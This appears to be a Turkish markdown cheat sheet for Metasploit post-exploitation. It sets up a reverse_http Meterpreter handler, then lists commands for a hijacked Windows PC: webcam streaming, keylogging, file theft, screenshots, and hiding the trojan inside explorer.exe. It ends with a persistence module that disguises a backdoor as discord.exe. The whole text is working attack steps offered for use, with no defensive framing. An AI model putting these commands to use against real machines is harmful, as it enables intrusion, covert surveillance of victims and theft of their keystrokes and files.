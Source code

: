 # Hackledikten Sonra

#### 1. ```msfconsole```
#### 2. ```use exploit/multi/handler```
#### 3. ```set PAYLOAD windows/meterpreter/reverse_http``` (trojan hhtp uzantıı olduğu için http, tcp uzantılı olsaydı ```reverse_tcp``` olucaktı
#### 4. ```lhost 192.168.123.456``` (Kali IP'miz)
#### 5. ```lport 8080```
#### 6. ```exploit -j -z```
#### 7. ```sessions -l```
#### 8. ```session -1```

# Hedef PC'ye Sızdıktan Sonra Kullanılabilecek Komutlar

* ```background```: Session'dan Çıkar
* ```sysinfo```: Bilgisayarın Temel Bilgilerini Gösterir
* ```webcam_stream```: Hedef PC'nin Kamerasını Açar
* ```ps```: Hedef PC'de Çalışan Programları ve Program ID'lerini Gösterir
* ```migrate 2824```: Trojan'i 2824 (explorer.exe) içine saklar (2824 değişebilir, neyin içine saklamak istiyorsan onun ID'sini yazarız)
* ```upload dosyaadı```: Hedef PC'nin İçine Dosya Yüklememizi Sağlar
* ```download dosyaadı```: Hedef PC'nin İçindeki Dosyayı Kali'ye İndirir
* ```keyscan_start```: Hedef PC'de Basılan Tuşları Kaydetmeye Başlar
* ```keyscan_dump```: Hedef PC'de Basılan Tuşları Gösterir
* ```screenshot```: Hedef PC'nin Ekran Görüntüsünü Alır

# Hedef PC'yi Hackledikten Sonra Bağlantıyı Sürdürebilir Hale Getirmek

#### 1.```msfconsole```
#### 2.```use exploit/windows/local/persistence```
#### 3.```show options```
#### 4.```delay 10``` Hedef PC Tekrar Açıldıktan Kaç Saniye Sonra Session'un Açılcağını Belirleriz
#### 5.```exe_name discord.exe```  Hedef PC'nin Servis Listesinde Görünecek İsim (e.g. discord.exe)
#### 6.```show advanced```
#### 7.```set exe::custom /var/www/html/backdoors/tcp backdoor.exe``` Trojan'in Bulunduğu Konum
#### 8.```exploit```
